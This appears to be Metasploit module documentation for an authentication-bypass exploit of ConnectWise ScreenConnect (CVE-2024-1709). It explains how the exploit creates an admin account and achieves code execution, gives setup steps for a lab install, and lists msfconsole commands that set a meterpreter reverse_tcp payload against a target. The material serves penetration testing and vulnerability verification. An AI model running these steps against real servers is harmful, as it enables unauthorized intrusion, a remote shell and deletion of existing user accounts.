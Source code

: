 ## Vulnerable Application
This module exploits an authentication bypass vulnerability that allows an unauthenticated attacker to create
a new administrator user account on a vulnerable ConnectWise ScreenConnect server. The attacker can leverage
this to achieve RCE by uploading a malicious extension module. All versions of ScreenConnect version 23.9.7
and below are affected.

**Note:** The vulnerability will replace the ScreenConnect systems existing User.xml file, meaning existing user
accounts will be removed after exploitation.

## Testing
* Download a vulnerable version of the software by visiting: 
  * https://screenconnect.connectwise.com/download/archive, for example download the file
[ScreenConnect_23.9.7.8804_Release.msi](https://d1kuyuqowve5id.cloudfront.net/ScreenConnect_23.9.7.8804_Release.msi) or
[ScreenConnect_21.14.5924.8013_Release.msi](https://d1kuyuqowve5id.cloudfront.net/ScreenConnect_21.14.5924.8013_Release.msi).
* Request a trial license if you do not already have one.
* On a Windows system, click through the installer to install the product and complete the installation in your
web browser as instructed. 
* Once completed, you can login by visiting http://127.0.0.1:8040/ in your browser.

## Verification Steps
1. Start msfconsole
2. `use exploit/multi/http/connectwise_screenconnect_rce_cve_2024_1709`
3. `set target 0`
4. `set payload windows/x64/meterpreter/reverse_tcp`
5. `set LHOST eth0`
6. `set RHOST <TARGET_IP_ADDRESS>`
7. `check`
8. `exploit`

## Options

### USERNAME
The username to use when creating a new administrator user account. Will default to a random 8 character value. This
value must not be empty.

### PASSWORD
The password to use when creating a new administrator user account. Will default to a random 16 character value. This
value must not be empty and must be 8 characters or more.

